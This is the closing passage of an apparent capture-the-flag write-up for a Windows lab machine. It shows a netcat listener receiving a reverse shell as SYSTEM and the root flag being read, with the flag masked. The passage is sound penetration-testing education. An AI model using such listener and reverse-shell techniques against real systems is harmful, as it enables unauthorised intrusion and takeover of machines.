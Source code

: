 On our listener, we get a connection as `SYSTEM`!

```bash
$ sudo rlwrap nc -lvnp 1337     
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.8] 49285
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator> whoami
nt authority\system
```

# root.txt

The root flag is stored in the `Administrator`'s Desktop, as always.

```
C:\Users\Administrator\Desktop>type root.txt
51edXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !